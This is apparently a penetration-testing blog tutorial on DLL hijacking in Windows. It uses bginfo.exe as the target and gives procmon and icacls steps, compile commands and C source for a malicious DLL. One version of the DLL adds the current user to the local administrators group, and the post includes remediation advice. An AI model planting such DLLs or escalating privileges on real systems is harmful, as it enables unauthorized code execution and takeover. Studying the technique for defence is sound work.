 ```yaml
---
title:  "DLL hijacking in Windows. Simple C example."
date:   2021-09-24 10:00:00 +0600
header:
  teaser: "/assets/images/8/2021-09-25_12-09.png"
categories: 
  - pentest
tags:
  - dllhijack
  - windows
  - privesc
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![DLL hijacking](/assets/images/8/2021-09-25_12-09.png){:class="img-responsive"}

What is DLL hijacking? DLL hijacking is technique when we tricking a legitimate/trusted application into loading an our malicious DLL.

In Windows environments when an application or a service is starting it looks for a number of DLL's in order to function properly. Here is a diagram showing the default DLL search order in Windows:

![DLL hijacking](/assets/images/8/dllhijack.png){:class="img-responsive"}

In our post, we will only consider the simplest case: the directory of an application is writable. In this case, any DLL loaded by the application can be hijacked because it’s the first location used in the search process.

### Step 1. Find process with missing DLLs

The most common way to find missing Dlls inside a system is running [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from sysinternals, setting the following filters:

![procmon with filters](/assets/images/8/2021-09-25_11-52.png){:class="img-responsive"}

which will identify if there is any DLL that the application tries to load and the actual path that the application is looking for the missing DLL:

![procmon missing dlls](/assets/images/8/2021-09-25_11-53.png){:class="img-responsive"}

In our example, the process `Bginfo.exe` is missing several DLLs which possibly can be used for DLL hijacking. For example `Riched32.dll`

### Step 2. Check folder permissions

Let's go to check folder permissions:
```cmd
icacls C:\Users\user\Desktop\
```

![folder permissions](/assets/images/8/2021-09-25_14-42.png){:class="img-responsive"}

According to the [documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) we have write access to this folder.   

### Step 3. DLL hijacking

Firstly, let's go to run our `bginfo.exe`:
![run bginfo](/assets/images/8/2021-09-25_11-54.png){:class="img-responsive"}

Therefore if I plant a DLL called `Riched32.dll` in the same directory as `bginfo.exe` when that tool executes so will my malicious code. For simplicity, I create DLL which just pop-up a message box:

```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-meow!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

Now we can compile it (on attacker's machine):     

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![compile DLL](/assets/images/8/2021-09-25_11-58.png){:class="img-responsive"}

Then rename as `Riched32.dll` and copy to `C:\Users\user\Desktop\` my malicious DLL.

![replace DLL](/assets/images/8/2021-09-25_14-54.png){:class="img-responsive"}

And now launch `bginfo.exe`:

![run process 1](/assets/images/8/2021-09-25_12-00.png){:class="img-responsive"}

![run process 2](/assets/images/8/2021-09-25_12-04.png){:class="img-responsive"}

As you can see, our malicious logic is executed:

So, `bginfo.exe` and malicious `Riched32.dll` in the same folder **(1)**    
Then launch `bginfo.exe` **(2)**    
Message box is popped-up! **(3)**   

### Remediation

Perhaps the simplest remediation steps would be simply to ensure that all installed software goes into the protected directory `C:\Program Files` or `C:\Program Files (x86)`. If software cannot be installed into these locations then the next easiest thing is to ensure that only Administrative users have "create" or "write" permissions to the installation directory to prevent an attacker from deploying a malicious DLL and thereby breaking the exploitation.

### Privilege escalation

DLL hijacking can be used for more than just executing code. It can also be used to gain persistence and privilege escalation:

Find a process that runs/will run as with other privileges (horizontal/lateral movement) that is missing a dll.   
Have write permission on any folder where the dll is going to be searched (probably the executable directory or some folder inside the system path).   

Then replace our code:
```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      system("cmd.exe /k net localgroup administrators user /add");
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}

```

*For x64 compile with: x86_64-w64-mingw32-gcc evil.c -shared -o target.dll*          
*For x86 compile with: i686-w64-mingw32-gcc evil.c -shared -o target.dll*      

Further, all steps are similar.

### Conclusion

But in all cases, there is a caveat.

Note that in some cases the Dll you compile must export multiple functions to be loaded by the victim process. If these functions do not exist, the binary will not be able to load them and the exploit will fail.

So, compiling custom versions of existing DLLs is more challenging than it may sound, as a lot of executables will not load such DLLs if procedures or entry points are missing. Tools such as [DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html) can be used to enumerate all external function names and ordinals of the legitimate DLLs. Ensuring that our compiled DLL follows the same format will maximise the chances of it being loaded successfully.

In the future I will try to figure out this, and I will try create python script which create `.def` file from target original DLL.

[Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)     
[icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)    
[DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html)      
[Module-Definition (def) files](https://docs.microsoft.com/en-us/cpp/build/reference/module-definition-dot-def-files?view=msvc-160&viewFallbackFrom=vs-2019)

[Source code in Github](https://github.com/cocomelonc/2021-09-24-dllhijack)     

I've added the vulnerable bginfo (version 4.16) to github if you'd like to experiment.

Thanks for your time and good bye!   
*PS. All drawings and screenshots are mine*
